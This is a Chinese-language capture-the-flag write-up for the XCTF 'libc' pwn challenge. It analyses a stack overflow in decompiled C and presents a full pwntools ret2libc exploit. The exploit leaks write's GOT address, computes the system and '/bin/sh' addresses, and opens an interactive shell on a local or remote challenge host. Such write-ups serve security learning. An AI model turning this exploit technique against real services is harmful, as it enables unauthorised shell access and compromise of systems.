 #### [ad0261 libc](https://adworld.xctf.org.cn/media/file/task/bed0c68697f74e649f3e1c64ff7838b8)
1. 分析过程
   查看main函数，基本啥也没有：
   ```c
   int __cdecl main()
    {
        char buf[108]; // [esp+2Ch] [ebp-6Ch] BYREF

        strcpy(buf, "Welcome to XDCTF2015~!\n");
        memset(&buf[24], 0, 0x4Cu);
        setbuf(stdout, buf);
        write(1, buf, strlen(buf));
        sub_8048484();
        return 0;
    }
   ```
   溢出点在sub_8048484()里面,buf只有108，但是读取0x100（256），可以溢出覆盖返回地址：
   ```c
   ssize_t sub_8048484()
    {
        char buf[108]; // [esp+1Ch] [ebp-6Ch] BYREF

        setbuf(stdin, buf);
        return read(0, buf, 0x100u);    // 溢出点
    }
   ```
   ```
   -0000006C buf             db ?
   ...
   -00000001                 db ? ; undefined
   +00000000  s              db 4 dup(?)
   +00000004  r              db 4 dup(?)
   +00000008
   +00000008 ; end of stack variables
   ```
   但是此时在plt表中搜索system发现不存在，不过main函数中有write函数，可以用来输出libc相关信息。
   总结思路：
   第一轮准备工作输出libc基地址，将返回地址设置为plt_write函数，并将write函数输出got_write里记录的write_addr，最后将write函数返回地址设置为main，方便下一轮正式pwn溢出。
   第二轮，根据已有的write_addr，结合偏移量libc.dump("write")，可以计算出基地址libc_base=write_addr-libc.dump("write")。然后可以计算出system地址system_addr=libc_base+libc.dump("system")。
   （存疑）然后/bin/sh的地址也可以在libc里面找到，binsh_addr=libc_base+libc.dump('str_bin_sh')。
   后面就正常按照system函数压栈即可。
2. exp.py
    ```python
    from pwn import *
    from LibcSearcher import *   # 因为题目没有提供libc.so，所以用匹配库匹配一下
    io = process('./pwn')
    io = remote('61.147.171.105','63827')
    elf = ELF("./pwn")           # 读取pwn里write函数的plt和got地址
    write_plt = elf.plt['write']
    write_got = elf.got['write']
    main_addr = 0x80484BE
    payload = b'a'*(0x6c+0x4) + p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got) + p32(4)
    io.recvuntil(b"Welcome to XDCTF2015~!\n")           # 首先填充至返回地址，将返回地址设为write_plt
    io.sendline(payload)                                # 然后根据weirte的调用栈结构，打印4字节write_got指向的内容
    write_addr = u32(io.recv(4))                        # 从交互中获取上述write真实地址 
    print("write_addr", hex(write_addr))
    
    '''
    # 这道题只能打通本地，打不通远程……痛苦啊            
    libc = LibcSearcher('write', write_addr)            # 根据write的真实地址自动识别libc版本（不一定准确）
    libc_base = write_addr - libc.dump("write")         # 计算基地址
    system_addr = libc_base + libc.dump("system")       # 计算system的真实地址
    binsh_addr = libc_base + libc.dump('str_bin_sh')    # 计算bin_sh的真实地址
    ''' 
    # 本地运行版本
    libc = ELF("./libc_32.so.6")                       # 查看本地libc版本 $ ldd pwn 
    libc_base = write_addr - libc.sym["write"]         # 计算基地址
    system_addr = libc_base + libc.sym["system"]       # 计算system的真实地址
    binsh_addr = libc_base + 0x001b5fc8                # $ ROPgadget --binary libc_32.so.6 --string '/bin/sh'
    
    print("system_addr", hex(system_addr))
    print("binah_addr", hex(binsh_addr))

    payload = b'a'*(0x6c+0x4) + p32(system_addr) +p32(main_addr) + p32(binsh_addr)
    io.recvuntil(b"Welcome to XDCTF2015~!\n")           # 根据正常system调用栈结构填写pwn
    io.sendline(payload)         
    io.interactive()           
    ```
